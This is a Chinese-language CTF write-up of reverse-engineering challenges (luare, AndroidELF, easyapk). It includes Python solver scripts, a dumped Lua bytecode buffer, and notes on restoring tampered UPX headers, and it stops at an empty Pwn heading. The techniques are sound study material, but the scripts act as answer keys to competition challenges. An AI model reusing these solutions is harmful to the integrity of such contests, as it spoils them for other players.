uncom 反编译得到字节码



一眼异或

```python
a = [102,109,99,100,127,52,114,88,97,122,85,125,105,127,119,80,120,112,98,39,109,52,55,106]

for i in range(len(a)):
    print(chr(a[i] ^ i),end="")
```

## easyapk

打开发现是一个叫做 des 的 aes，有 iv 和密码，密码把 e 替换成 3




## AndroidELF



upx 自己加一个壳对比一下发现给的附件末尾把大写的 UPX 改成小写了，改回去就行

ps:当时做的时候本机用的 4.01 版本的 upx 没法脱壳，虚拟机里的 3.96 版本的 upx 可以脱壳，什么神秘的出题？



之后的逻辑很简单：

把输入 16 个字节一组进行加密，最后和密文作比较

```python
# 四轮,每16位加密一次
import ctypes

xmm = [0x0000000D, 0x00000004, 0x00000000, 0x00000005,
       0x00000002, 0x0000000C, 0x0000000B, 0x00000008,
       0x0000000A,0x00000006, 0x00000001, 0x00000009,
       0x00000003, 0xf, 0x7, 0xe]

#xmm=[0xe,7,0xf,3,9,1,6,0xa,8,0xb,0xc,2,5,0,4,0xd]
#print(xmm)
#xmm = [0x5,0x0,0x4,0xd,0x8,0xb,0xc,0x2,0x9,0x1,0x6,0xa,0xe,0x7,0xf,0x3]
'''
zhengxiang
1-->D
2-->4
3-->0
revvv
D-->1
tmp[j] = xmm[i]
'''
# xmm_rev =
enc = [0x3D, 0x45, 0x38, 0x7E, 0x78, 0x4B, 0x6A, 0x5C, 0x5B, 0x52, 0x4C, 0x73, 0x4E, 0x39, 0x49, 0x5F, 0x49, 0x40, 0x38,
       0x5E, 0x74, 0x40, 0x66, 0x44, 0x46, 0x7A, 0x39, 0x3B, 0x67, 0x39, 0x70, 0x6C, 0x71, 0x5E, 0x6D, 0x4D, 0x5A, 0x4C,
       0x7F, 0x3B, 0x4D, 0x63, 0x5E, 0x4E, 0x44, 0x5A, 0x7B, 0x51, 0x38, 0x61, 0x29, 0x63, 0x75, 0x5B, 0x67, 0x46, 0x4E,
       0x5D, 0x79, 0x29, 0x4D, 0x29, 0x6D, 0x71]
# print(len(enc))
enc = [ctypes.c_uint8(i) for i in enc]

#print(enc)

for mm in range(4):
    for i in range(15, -1, -1):
        # enc1
        for j in range(16):
            enc[j+mm*16].value ^= (0x78 * i)
        # enc2
        for j in range(16):
            enc[j+mm*16].value = (enc[j+mm*16].value >> 3) | (enc[j+mm*16].value << 5)
        # enc3
        '''
        正向
        tmp[xmm[j]] = enc[j]
        '''

        tmp = [0 for xx in range(16)]
        for j in range(16):
            tmp[j] = enc[xmm[j]+mm*16].value
        for j in range(16):
            enc[j+mm*16].value = tmp[j]

        # enc4
        '''
        0-->7
        1-->6
        2-->5
        3-->4

        '''
        for j in range(16):
            v1 = 0
            for k in range(8):
                v1 |= ((enc[j+mm*16].value >> k) & 1) << (7 - k)
            # print(bin(enc[j].value),bin(v1))
            enc[j+mm*16].value = v1

for i in range(len(enc)):
    print(chr(enc[i].value),end='')
```

## <strong>luare</strong>

在 buf 处打下断点 dump 下 lua 指令



随后将 lua 指令写入文件

```python
buf = [0x1B, 0x4C, 0x75, 0x61, 0x52, 0x00, 0x01, 0x04, 0x08, 0x04, 0x08, 0x00, 0x19, 0x93, 0x0D, 0x0A, 0x1A, 0x0A, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x01, 0x03, 0x15, 0x00, 0x00, 0x00, 0x25, 0x00, 0x00, 0x00, 0x08, 0x00, 0x00, 0x80, 0x06, 0x40, 0x40, 0x00, 0x41, 0x80, 0x00, 0x00, 0x1D, 0x40, 0x00, 0x01, 0x06, 0xC0, 0x40, 0x00, 0x07, 0x00, 0x41, 0x00, 0x1D, 0x80, 0x80, 0x00, 0x46, 0x00, 0x40, 0x00, 0x80, 0x00, 0x00, 0x00, 0x5D, 0x80, 0x00, 0x01, 0x5B, 0x00, 0x00, 0x00, 0x17, 0xC0, 0x00, 0x80, 0x46, 0x40, 0x40, 0x00, 0x81, 0x40, 0x01, 0x00, 0x5D, 0x40, 0x00, 0x01, 0x17, 0x80, 0x00, 0x80, 0x46, 0x40, 0x40, 0x00, 0x81, 0x80, 0x01, 0x00, 0x5D, 0x40, 0x00, 0x01, 0x1F, 0x00, 0x80, 0x00, 0x07, 0x00, 0x00, 0x00, 0x04, 0x09, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x43, 0x68, 0x65, 0x63, 0x6B, 0x41, 0x6E, 0x73, 0x00, 0x04, 0x06, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x70, 0x72, 0x69, 0x6E, 0x74, 0x00, 0x04, 0x08, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x69, 0x6E, 0x70, 0x75, 0x74, 0x3A, 0x20, 0x00, 0x04, 0x03, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x69, 0x6F, 0x00, 0x04, 0x05, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x72, 0x65, 0x61, 0x64, 0x00, 0x04, 0x05, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x74, 0x72, 0x75, 0x65, 0x00, 0x04, 0x06, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x66, 0x61, 0x6C, 0x73, 0x65, 0x00, 0x01, 0x00, 0x00, 0x00, 0x12, 0x00, 0x00, 0x00, 0x2E, 0x00, 0x00, 0x00, 0x01, 0x00, 0x2A, 0x4B, 0x00, 0x00, 0x00, 0x55, 0x00, 0x00, 0x00, 0x58, 0x00, 0xC0, 0x00, 0x17, 0x40, 0x00, 0x80, 0x43, 0x00, 0x00, 0x00, 0x5F, 0x00, 0x00, 0x01, 0x46, 0x80, 0x40, 0x00, 0x80, 0x00, 0x00, 0x00, 0x5D, 0x80, 0x00, 0x01, 0x08, 0x40, 0x80, 0x80, 0x4B, 0x00, 0x00, 0x0D, 0x81, 0x00, 0x01, 0x00, 0xC1, 0x40, 0x01, 0x00, 0x01, 0x81, 0x01, 0x00, 0x41, 0xC1, 0x01, 0x00, 0x81, 0x41, 0x01, 0x00, 0xC1, 0x01, 0x02, 0x00, 0x01, 0x42, 0x02, 0x00, 0x41, 0x82, 0x02, 0x00, 0x81, 0xC2, 0x01, 0x00, 0xC1, 0xC2, 0x02, 0x00, 0x01, 0x03, 0x03, 0x00, 0x41, 0x43, 0x03, 0x00, 0x81, 0x03, 0x01, 0x00, 0xC1, 0x83, 0x03, 0x00, 0x01, 0xC4, 0x02, 0x00, 0x41, 0xC4, 0x03, 0x00, 0x81, 0x04, 0x04, 0x00, 0xC1, 0x44, 0x04, 0x00, 0x01, 0x85, 0x04, 0x00, 0x41, 0xC5, 0x04, 0x00, 0x81, 0x05, 0x05, 0x00, 0xC1, 0x45, 0x05, 0x00, 0x01, 0x86, 0x05, 0x00, 0x41, 0x46, 0x05, 0x00, 0x81, 0xC6, 0x05, 0x00, 0xC1, 0x86, 0x03, 0x00, 0x01, 0x07, 0x06, 0x00, 0x41, 0x47, 0x06, 0x00, 0x81, 0x87, 0x06, 0x00, 0xC1, 0xC7, 0x06, 0x00, 0x01, 0x08, 0x07, 0x00, 0x41, 0x48, 0x07, 0x00, 0x81, 0x88, 0x07, 0x00, 0xC1, 0xC8, 0x07, 0x00, 0x01, 0x09, 0x07, 0x00, 0x41, 0x89, 0x06, 0x00, 0x81, 0xC9, 0x01, 0x00, 0xC1, 0x49, 0x01, 0x00, 0x01, 0x0A, 0x08, 0x00, 0x41, 0x4A, 0x08, 0x00, 0x64, 0x40, 0x00, 0x14, 0x08, 0x40, 0x80, 0x81, 0x08, 0xC0, 0x48, 0x91, 0x46, 0x80, 0x48, 0x00, 0x86, 0x40, 0x40, 0x00, 0x95, 0x00, 0x00, 0x01, 0x1A, 0x80, 0x80, 0x00, 0x17, 0x40, 0x03, 0x80, 0x46, 0x40, 0x40, 0x00, 0x86, 0x80, 0x48, 0x00, 0x47, 0x80, 0x80, 0x00, 0x86, 0xC0, 0x40, 0x00, 0xC6, 0x80, 0x48, 0x00, 0x87, 0xC0, 0x00, 0x01, 0x58, 0x80, 0x80, 0x00, 0x17, 0x40, 0x00, 0x80, 0x43, 0x00, 0x00, 0x00, 0x5F, 0x00, 0x00, 0x01, 0x46, 0x80, 0x48, 0x00, 0x4D, 0xC0, 0xC8, 0x00, 0x08, 0x40, 0x00, 0x91, 0x17, 0x00, 0xFB, 0x7F, 0x43, 0x00, 0x80, 0x00, 0x5F, 0x00, 0x00, 0x01, 0x1F, 0x00, 0x80, 0x00, 0x24, 0x00, 0x00, 0x00, 0x03, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x44, 0x40, 0x04, 0x08, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x64, 0x61, 0x74, 0x61, 0x4F, 0x75, 0x74, 0x00, 0x04, 0x08, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x4F, 0x6F, 0x30, 0x30, 0x4F, 0x6F, 0x30, 0x00, 0x04, 0x04, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x65, 0x6E, 0x63, 0x00, 0x03, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x5B, 0x40, 0x03, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x52, 0xC0, 0x03, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x52, 0xC0, 0x03, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x47, 0x40, 0x03, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x14, 0xC0, 0x03, 0x00, 0x00, 0x00, 0x00, 0x00, 0xC0, 0x58, 0x40, 0x03, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x59, 0xC0, 0x03, 0x00, 0x00, 0x00, 0x00, 0x00, 0x80, 0x4D, 0x40, 0x03, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x40, 0x03, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x53, 0xC0, 0x03, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x08, 0x40, 0x03, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x34, 0x40, 0x03, 0x00, 0x00, 0x00, 0x00, 0x00, 0x80, 0x4E, 0xC0, 0x03, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x4C, 0xC0, 0x03, 0x00, 0x00, 0x00, 0x00, 0x00, 0xC0, 0x5D, 0xC0, 0x03, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x40, 0x03, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x59, 0x40, 0x03, 0x00, 0x00, 0x00, 0x00, 0x00, 0x80, 0x5D, 0x40, 0x03, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x42, 0x40, 0x03, 0x00, 0x00, 0x00, 0x00, 0x00, 0x80, 0x54, 0x40, 0x03, 0x00, 0x00, 0x00, 0x00, 0x00, 0xC0, 0x57, 0x40, 0x03, 0x00, 0x00, 0x00, 0x00, 0x00, 0x80, 0x5A, 0x40, 0x03, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x2C, 0x40, 0x03, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x54, 0xC0, 0x03, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x14, 0x40, 0x03, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x56, 0xC0, 0x03, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x56, 0x40, 0x03, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x55, 0xC0, 0x03, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x1C, 0x40, 0x03, 0x00, 0x00, 0x00, 0x00, 0x00, 0xC0, 0x5F, 0x40, 0x04, 0x02, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x69, 0x00, 0x03, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xF0, 0x3F, 0x00, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x09, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x63, 0x74, 0x66, 0x2E, 0x6C, 0x75, 0x61, 0x00, 0x4B, 0x00, 0x00, 0x00, 0x14, 0x00, 0x00, 0x00, 0x14, 0x00, 0x00, 0x00, 0x14, 0x00, 0x00, 0x00, 0x15, 0x00, 0x00, 0x00, 0x15, 0x00, 0x00, 0x00, 0x17, 0x00, 0x00, 0x00, 0x17, 0x00, 0x00, 0x00, 0x17, 0x00, 0x00, 0x00, 0x17, 0x00, 0x00, 0x00, 0x24, 0x00, 0x00, 0x00, 0x24, 0x00, 0x00, 0x00, 0x24, 0x00, 0x00, 0x00, 0x24, 0x00, 0x00, 0x00, 0x24, 0x00, 0x00, 0x00, 0x24, 0x00, 0x00, 0x00, 0x24, 0x00, 0x00, 0x00, 0x24, 0x00, 0x00, 0x00, 0x24, 0x00, 0x00, 0x00, 0x24, 0x00, 0x00, 0x00, 0x24, 0x00, 0x00, 0x00, 0x24, 0x00, 0x00, 0x00, 0x24, 0x00, 0x00, 0x00, 0x24, 0x00, 0x00, 0x00, 0x24, 0x00, 0x00, 0x00, 0x24, 0x00, 0x00, 0x00, 0x24, 0x00, 0x00, 0x00, 0x24, 0x00, 0x00, 0x00, 0x24, 0x00, 0x00, 0x00, 0x24, 0x00, 0x00, 0x00, 0x24, 0x00, 0x00, 0x00, 0x24, 0x00, 0x00, 0x00, 0x24, 0x00, 0x00, 0x00, 0x24, 0x00, 0x00, 0x00, 0x24, 0x00, 0x00, 0x00, 0x24, 0x00, 0x00, 0x00, 0x24, 0x00, 0x00, 0x00, 0x24, 0x00, 0x00, 0x00, 0x24, 0x00, 0x00, 0x00, 0x24, 0x00, 0x00, 0x00, 0x24, 0x00, 0x00, 0x00, 0x24, 0x00, 0x00, 0x00, 0x24, 0x00, 0x00, 0x00, 0x24, 0x00, 0x00, 0x00, 0x24, 0x00, 0x00, 0x00, 0x24, 0x00, 0x00, 0x00, 0x24, 0x00, 0x00, 0x00, 0x24, 0x00, 0x00, 0x00, 0x24, 0x00, 0x00, 0x00, 0x24, 0x00, 0x00, 0x00, 0x24, 0x00, 0x00, 0x00, 0x24, 0x00, 0x00, 0x00, 0x24, 0x00, 0x00, 0x00, 0x26, 0x00, 0x00, 0x00, 0x27, 0x00, 0x00, 0x00, 0x27, 0x00, 0x00, 0x00, 0x27, 0x00, 0x00, 0x00, 0x27, 0x00, 0x00, 0x00, 0x27, 0x00, 0x00, 0x00, 0x28, 0x00, 0x00, 0x00, 0x28, 0x00, 0x00, 0x00, 0x28, 0x00, 0x00, 0x00, 0x28, 0x00, 0x00, 0x00, 0x28, 0x00, 0x00, 0x00, 0x28, 0x00, 0x00, 0x00, 0x28, 0x00, 0x00, 0x00, 0x28, 0x00, 0x00, 0x00, 0x29, 0x00, 0x00, 0x00, 0x29, 0x00, 0x00, 0x00, 0x2B, 0x00, 0x00, 0x00, 0x2B, 0x00, 0x00, 0x00, 0x2B, 0x00, 0x00, 0x00, 0x2B, 0x00, 0x00, 0x00, 0x2D, 0x00, 0x00, 0x00, 0x2D, 0x00, 0x00, 0x00, 0x2E, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x05, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x64, 0x61, 0x74, 0x61, 0x00, 0x00, 0x00, 0x00, 0x00, 0x4B, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x05, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x5F, 0x45, 0x4E, 0x56, 0x00, 0x01, 0x00, 0x00, 0x00, 0x01, 0x00, 0x09, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x63, 0x74, 0x66, 0x2E, 0x6C, 0x75, 0x61, 0x00, 0x15, 0x00, 0x00, 0x00, 0x2E, 0x00, 0x00, 0x00, 0x12, 0x00, 0x00, 0x00, 0x30, 0x00, 0x00, 0x00, 0x30, 0x00, 0x00, 0x00, 0x30, 0x00, 0x00, 0x00, 0x31, 0x00, 0x00, 0x00, 0x31, 0x00, 0x00, 0x00, 0x31, 0x00, 0x00, 0x00, 0x33, 0x00, 0x00, 0x00, 0x33, 0x00, 0x00, 0x00, 0x33, 0x00, 0x00, 0x00, 0x33, 0x00, 0x00, 0x00, 0x33, 0x00, 0x00, 0x00, 0x34, 0x00, 0x00, 0x00, 0x34, 0x00, 0x00, 0x00, 0x34, 0x00, 0x00, 0x00, 0x34, 0x00, 0x00, 0x00, 0x36, 0x00, 0x00, 0x00, 0x36, 0x00, 0x00, 0x00, 0x36, 0x00, 0x00, 0x00, 0x37, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x05, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x64, 0x61, 0x74, 0x61, 0x00, 0x08, 0x00, 0x00, 0x00, 0x15, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x05, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x5F, 0x45, 0x4E, 0x56, 0x00]
with open('1.lua','wb') as f:
    f.write(bytes(buf))
```

使用 luadec 反编译出源码

```lua
CheckAns = function(data)
  -- function num : 0_0 , upvalues : _ENV
  if #data ~= 40 then
    return false
  end
  dataOut = Oo00Oo0(data)
  enc = {109, -73, -72, 46, -73, -5, 99, -100, 46, 59, 32, -76, 109, 3, 59, 20, -61, -56, -119, 48, 100, 118, 36, 118, 82, 3, 95, 106, 14, -80, 5, -89, 89, -85, 5, 14, 46, -73, 7, 127}
  i = 1
  while i <= #dataOut do
    if dataOut[i] ~= enc[i] then
      return false
    end
    i = i + 1
  end
  return true
end

print("input: ")
local data = (io.read)()
if CheckAns(data) then
  print("true")
else
  print("false")
end
```

发现和 Oo00Oo0 有关,将数据 dump 下来



```python
import ctypes

enc = [109, -73, -72, 46, -73, -5, 99, -100, 46, 59, 32, -76, 109, 3, 59, 20, -61, -56, -119, 48, 100, 118, 36, 118, 82,
       3, 95, 106, 14, -80, 5, -89, 89, -85, 5, 14, 46, -73, 7, 127]
b = [0x3C, 0x95, 0xC8, 0x28, 0x10, 0x6D, 0x85, 0x60, 0x59, 0x03, 0xB3, 0x4C, 0x76, 0x49, 0x48, 0x96, 0xB8, 0x5F, 0xB7,
     0x79, 0xC4, 0x64, 0x71, 0x2E, 0x38, 0x8C, 0xAC, 0xA7, 0x91, 0x72, 0x63, 0x80, 0xB0, 0x9E, 0x33, 0x4B, 0xAE, 0xF3,
     0x8B, 0x7B, 0x4D, 0x5B, 0xB4, 0x52, 0xEC, 0x6F, 0xE0, 0xCF, 0xAD, 0xC3, 0x20, 0xAB, 0xEA, 0x67, 0xDC, 0x05, 0x00,
     0x9F, 0x40, 0x56, 0xD6, 0xFB, 0xFC, 0x24, 0x92, 0xCA, 0x0B, 0x3D, 0x46, 0x0D, 0xF0, 0x4A, 0x5A, 0x55, 0x11, 0x1A,
     0x3B, 0x8A, 0xBC, 0x7D, 0x6C, 0xE7, 0xA9, 0x13, 0x75, 0xCE, 0x61, 0x30, 0x14, 0xA6, 0x6A, 0x27, 0x07, 0xD0, 0x54,
     0x9C, 0x5C, 0x8E, 0x89, 0xD8, 0x58, 0x01, 0xC2, 0x34, 0xE8, 0x69, 0x35, 0x2F, 0xC0, 0x2A, 0xA0, 0x50, 0x36, 0x88,
     0xFF, 0x39, 0x1D, 0x68, 0x0E, 0x0C, 0x93, 0xE6, 0xB1, 0xFE, 0x18, 0x7F, 0x6E, 0xB6, 0x78, 0x53, 0x31, 0x2B, 0xE9,
     0xD2, 0xF5, 0x29, 0x0F, 0x2C, 0x17, 0x84, 0xDE, 0xDB, 0xD9, 0x41, 0x06, 0x19, 0xF7, 0xA1, 0x99, 0xA8, 0x45, 0x7A,
     0x3E, 0x23, 0xA5, 0x1B, 0xAF, 0x0A, 0xAA, 0xE5, 0xEF, 0xA4, 0xE1, 0xF8, 0xFA, 0x82, 0x3A, 0x9A, 0xDF, 0x8F, 0x1C,
     0x65, 0xC7, 0x73, 0xD1, 0xC1, 0xC5, 0xD7, 0xA2, 0x5E, 0x87, 0xDD, 0x9D, 0x8D, 0xF9, 0xC9, 0x81, 0xCD, 0x90, 0x97,
     0xEE, 0x66, 0xDA, 0x4F, 0x42, 0x3F, 0xC6, 0x74, 0x08, 0x37, 0x25, 0xCB, 0x77, 0x26, 0xE3, 0x83, 0x32, 0xB9, 0xBD,
     0xD3, 0xF2, 0x44, 0xD5, 0x4E, 0x2D, 0xBA, 0x62, 0x98, 0x04, 0x1E, 0x12, 0x21, 0xE4, 0xBF, 0x47, 0xF6, 0x86, 0xF4,
     0xFD, 0x94, 0x16, 0xA3, 0xEB, 0x1F, 0x70, 0x7C, 0xB2, 0x51, 0x02, 0x43, 0x22, 0x15, 0xCC, 0x7E, 0x09, 0x6B, 0xE2,
     0x5D, 0xBB, 0x9B, 0xBE, 0xB5, 0xD4, 0xED, 0x57, 0xF1]
enc = [ctypes.c_uint8(i) for i in enc]
enc[39].value = b.index(enc[39].value)
flag = chr(enc[39].value)
for i in range(len(enc) - 1, 0, -1):
    enc[i - 1].value = b.index(enc[i - 1].value) ^ enc[i].value
    flag = chr(enc[i-1].value) + flag

print(flag)
```

# Pwn

## <strong>BrokenPrint</strong>

